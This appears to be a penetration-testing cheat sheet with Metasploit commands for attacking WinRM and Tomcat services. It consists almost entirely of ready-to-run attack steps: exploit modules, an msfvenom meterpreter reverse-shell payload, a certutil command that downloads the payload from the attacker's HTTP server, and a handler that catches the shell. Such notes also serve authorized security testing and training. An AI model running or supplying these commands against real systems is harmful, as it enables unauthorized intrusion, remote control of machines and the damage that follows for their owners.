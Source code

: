 > This can be used to run commands on the machine

```msfconsole
use exploit/windows/winrm/winrm_script_exec
set RHOST <ip-address>
set USERNAME <user>
set PASSWORD <pass>
set FORCE_VBS true
run
```

> This can be used to obtain a meterpreter session on the service.

#### Exploitation of Tomcat

```msfconsole
search type:exploit tomcat_jsp
use exploit/multi/http/tomcat_jsp_upload_bypass
set RHOST <ip-address>
show payloads
set payload java/jsp_shell_bind_tcp
set SHELL cmd
exploit
```

> This will give you a command shell session but not a meterpreter session on the system.

```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<local-ip> LPORT=1234 -f exe > meterpreter.exe 
```

> This is a payload file that we will transfer on to the system and then we'll use it to get a meterpreter session.

```shell
sudo python -m SimpleHTTPServer 80
```

> Command to start a simple `HTTP File Server`.

```CMD
certutil -urlcache -f http://<local-IP>/meterpreter.exe meterpreter.exe
```

> This can be used to download the file from the HTTP server with accessing the browser.

```msfconsole
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <local-ip>
set LPORT
run
```

> Set up a multi handler to get a meterpreter shell.

```CMD
./meterpreter.exe
```
